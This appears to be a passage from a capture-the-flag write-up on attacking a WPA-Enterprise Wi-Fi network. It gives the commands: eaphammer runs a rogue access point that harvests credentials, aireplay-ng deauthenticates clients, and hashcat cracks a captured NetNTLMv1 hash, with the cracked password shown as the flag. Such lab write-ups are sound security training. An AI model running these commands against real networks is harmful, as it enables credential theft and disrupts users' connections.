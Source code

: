 
Use `eaphammer` to capture creds:

```shell
sudo ./eaphammer --cert-wiazrd
sudo ./eaphammer -i wlan1 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced
```

In parallel, I have to deauth clients on all AP (2 in this case):

```shell
sudo aireplay-ng wlan0mon -0 0 -a F0:9F:C2:71:22:1A -c 64:32:A8:07:6C:40
sudo aireplay-ng wlan0mon -0 0 -a F0:9F:C2:71:22:15 -c 64:32:A8:07:6C:40
```

To receive all of this juicy informations:

![](Images/Recon18_02.png)

I can decrypt password using `hashcat`:

```shell 
echo "juan.tr::::23681ce420b2a8bb32fd51e679ba2db6d051b32291ce9b18:20041fa79eb51a80" > hashchall18
```

```shell
sudo hashcat -a 0 -m 5500 hashchall18 ../rockyou-top100000.txt --force
...
juan.tr::::23681ce420b2a8bb32fd51e679ba2db6d051b32291ce9b18:20041fa79eb51a80:bulldogs1234   
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv1 / NetNTLMv1+ESS
Hash.Target......: juan.tr::::23681ce420b2a8bb32fd51e679ba2db6d051b322...b51a80
Time.Started.....: Thu Jan 25 18:58:38 2024 (0 secs)
Time.Estimated...: Thu Jan 25 18:58:38 2024 (0 secs)
Guess.Base.......: File (../rockyou-top100000.txt)
...
```

**Flag :**  `bulldogs1234`
